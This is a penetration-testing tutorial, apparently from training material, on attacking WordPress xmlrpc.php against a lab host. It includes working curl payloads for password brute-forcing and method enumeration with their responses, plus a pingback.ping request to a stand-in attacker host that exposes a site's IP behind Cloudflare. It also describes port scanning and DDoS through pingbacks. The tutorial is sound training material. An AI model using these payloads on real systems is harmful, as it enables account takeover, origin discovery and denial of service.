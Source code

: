 # Attacking WordPress 'xmlrpc.php'

It is important to note that `xmlrpc.php` being enabled on a WordPress instance is not a vulnerability. Depending on the methods allowed, `xmlrpc.php` can facilitate some enumeration and exploitation activities, though.

Let us borrow an example from our [Hacking Wordpress](https://academy.hackthebox.com/module/details/17) module.

Suppose we are assessing the security of a WordPress instance residing in _http://blog.inlanefreight.com_. Through enumeration activities, we identified a valid username, `admin`, and that `xmlrpc.php` is enabled. Identifying if `xmlrpc.php` is enabled is as easy as requesting `xmlrpc.php` on the domain we are assessing.

We can mount a password brute-forcing attack through `xmlrpc.php`, as follows.

```shell-session
]$ curl -X POST -d "<methodCall><methodName>wp.getUsersBlogs</methodName><params><param><value>admin</value></param><param><value>CORRECT-PASSWORD</value></param></params></methodCall>" http://blog.inlanefreight.com/xmlrpc.php

<?xml version="1.0" encoding="UTF-8"?>
<methodResponse>
  <params>
    <param>
      <value>
      <array><data>
  <value><struct>
  <member><name>isAdmin</name><value><boolean>1</boolean></value></member>
  <member><name>url</name><value><string>http://blog.inlanefreight.com/</string></value></member>
  <member><name>blogid</name><value><string>1</string></value></member>
  <member><name>blogName</name><value><string>Inlanefreight</string></value></member>
  <member><name>xmlrpc</name><value><string>http://blog.inlanefreight.com/xmlrpc.php</string></value></member>
</struct></value>
</data></array>
      </value>
    </param>
  </params>
</methodResponse>
```

Above, you can see a successful login attempt through `xmlrpc.php`.

We will receive a `403 faultCode` error if the credentials are not valid.

```shell-session
$ curl -X POST -d "<methodCall><methodName>wp.getUsersBlogs</methodName><params><param><value>admin</value></param><param><value>WRONG-PASSWORD</value></param></params></methodCall>" http://blog.inlanefreight.com/xmlrpc.php

<?xml version="1.0" encoding="UTF-8"?>
<methodResponse>
  <fault>
    <value>
      <struct>
        <member>
          <name>faultCode</name>
          <value><int>403</int></value>
        </member>
        <member>
          <name>faultString</name>
          <value><string>Incorrect username or password.</string></value>
        </member>
      </struct>
    </value>
  </fault>
</methodResponse>
```

You may ask how we identified the correct method to call (_system.listMethods_). We did that by going through the well-documented [Wordpress code](https://codex.wordpress.org/XML-RPC/system.listMethods) and interacting with `xmlrpc.php`, as follows.

```shell-session
$ curl -s -X POST -d "<methodCall><methodName>system.listMethods</methodName></methodCall>" http://blog.inlanefreight.com/xmlrpc.php

<?xml version="1.0" encoding="UTF-8"?>
<methodResponse>
  <params>
    <param>
      <value>
      <array><data>
  <value><string>system.multicall</string></value>
  <value><string>system.listMethods</string></value>
  <value><string>system.getCapabilities</string></value>
  <value><string>demo.addTwoNumbers</string></value>
  <value><string>demo.sayHello</string></value>
  <value><string>pingback.extensions.getPingbacks</string></value>
  <value><string>pingback.ping</string></value>
  <value><string>mt.publishPost</string></value>
  <value><string>mt.getTrackbackPings</string></value>
  <value><string>mt.supportedTextFilters</string></value>
  <value><string>mt.supportedMethods</string></value>
  <value><string>mt.setPostCategories</string></value>
  <value><string>mt.getPostCategories</string></value>
  <value><string>mt.getRecentPostTitles</string></value>
  <value><string>mt.getCategoryList</string></value>
  <value><string>metaWeblog.getUsersBlogs</string></value>
  <value><string>metaWeblog.deletePost</string></value>
  <value><string>metaWeblog.newMediaObject</string></value>
  <value><string>metaWeblog.getCategories</string></value>
  <value><string>metaWeblog.getRecentPosts</string></value>
  <value><string>metaWeblog.getPost</string></value>
  <value><string>metaWeblog.editPost</string></value>
  <value><string>metaWeblog.newPost</string></value>
  <value><string>blogger.deletePost</string></value>
  <value><string>blogger.editPost</string></value>
  <value><string>blogger.newPost</string></value>
  <value><string>blogger.getRecentPosts</string></value>
  <value><string>blogger.getPost</string></value>
  <value><string>blogger.getUserInfo</string></value>
  <value><string>blogger.getUsersBlogs</string></value>
  <value><string>wp.restoreRevision</string></value>
  <value><string>wp.getRevisions</string></value>
  <value><string>wp.getPostTypes</string></value>
  <value><string>wp.getPostType</string></value>
  <value><string>wp.getPostFormats</string></value>
  <value><string>wp.getMediaLibrary</string></value>
  <value><string>wp.getMediaItem</string></value>
  <value><string>wp.getCommentStatusList</string></value>
  <value><string>wp.newComment</string></value>
  <value><string>wp.editComment</string></value>
  <value><string>wp.deleteComment</string></value>
  <value><string>wp.getComments</string></value>
  <value><string>wp.getComment</string></value>
  <value><string>wp.setOptions</string></value>
  <value><string>wp.getOptions</string></value>
  <value><string>wp.getPageTemplates</string></value>
  <value><string>wp.getPageStatusList</string></value>
  <value><string>wp.getPostStatusList</string></value>
  <value><string>wp.getCommentCount</string></value>
  <value><string>wp.deleteFile</string></value>
  <value><string>wp.uploadFile</string></value>
  <value><string>wp.suggestCategories</string></value>
  <value><string>wp.deleteCategory</string></value>
  <value><string>wp.newCategory</string></value>
  <value><string>wp.getTags</string></value>
  <value><string>wp.getCategories</string></value>
  <value><string>wp.getAuthors</string></value>
  <value><string>wp.getPageList</string></value>
  <value><string>wp.editPage</string></value>
  <value><string>wp.deletePage</string></value>
  <value><string>wp.newPage</string></value>
  <value><string>wp.getPages</string></value>
  <value><string>wp.getPage</string></value>
  <value><string>wp.editProfile</string></value>
  <value><string>wp.getProfile</string></value>
  <value><string>wp.getUsers</string></value>
  <value><string>wp.getUser</string></value>
  <value><string>wp.getTaxonomies</string></value>
  <value><string>wp.getTaxonomy</string></value>
  <value><string>wp.getTerms</string></value>
  <value><string>wp.getTerm</string></value>
  <value><string>wp.deleteTerm</string></value>
  <value><string>wp.editTerm</string></value>
  <value><string>wp.newTerm</string></value>
  <value><string>wp.getPosts</string></value>
  <value><string>wp.getPost</string></value>
  <value><string>wp.deletePost</string></value>
  <value><string>wp.editPost</string></value>
  <value><string>wp.newPost</string></value>
  <value><string>wp.getUsersBlogs</string></value>
</data></array>
      </value>
    </param>
  </params>
</methodResponse>
```

Inside the list of available methods above, [pingback.ping](https://codex.wordpress.org/XML-RPC_Pingback_API) is included. `pingback.ping` allows for XML-RPC pingbacks. According to WordPress, _a_ [_pingback_](https://wordpress.com/support/comments/pingbacks/) _is a special type of comment that’s created when you link to another blog post, as long as the other blog is set to accept pingbacks._

Unfortunately, if pingbacks are available, they can facilitate:

* IP Disclosure - An attacker can call the `pingback.ping` method on a WordPress instance behind Cloudflare to identify its public IP. The pingback should point to an attacker-controlled host (such as a VPS) accessible by the WordPress instance.
* Cross-Site Port Attack (XSPA) - An attacker can call the `pingback.ping` method on a WordPress instance against itself (or other internal hosts) on different ports. Open ports or internal hosts can be identified by looking for response time differences or response differences.
* Distributed Denial of Service Attack (DDoS) - An attacker can call the `pingback.ping` method on numerous WordPress instances against a single target.

Find below how an IP Disclosure attack could be mounted if `xmlrpc.php` is enabled and the `pingback.ping` method is available. XSPA and DDoS attacks can be mounted similarly.

Suppose that the WordPress instance residing in _http://blog.inlanefreight.com_ is protected by Cloudflare. As we already identified, it also has `xmlrpc.php` enabled, and the `pingback.ping` method is available.

As soon as the below request is sent, the attacker-controlled host will receive a request (pingback) originating from _http://blog.inlanefreight.com_, verifying the pingback and exposing _http://blog.inlanefreight.com_'s public IP address.

```http
--> POST /xmlrpc.php HTTP/1.1 
Host: blog.inlanefreight.com 
Connection: keep-alive 
Content-Length: 293

<methodCall>
<methodName>pingback.ping</methodName>
<params>
<param>
<value><string>http://attacker-controlled-host.com/</string></value>
</param>
<param>
<value><string>https://blog.inlanefreight.com/2015/10/what-is-cybersecurity/</string></value>
</param>
</params>
</methodCall>
```

If you have access to our [Hacking Wordpress](https://academy.hackthebox.com/module/details/17) module, please note that you won't be able to exploit the availability of the `pingback.ping` method against the related section's target, due to egress restrictions.
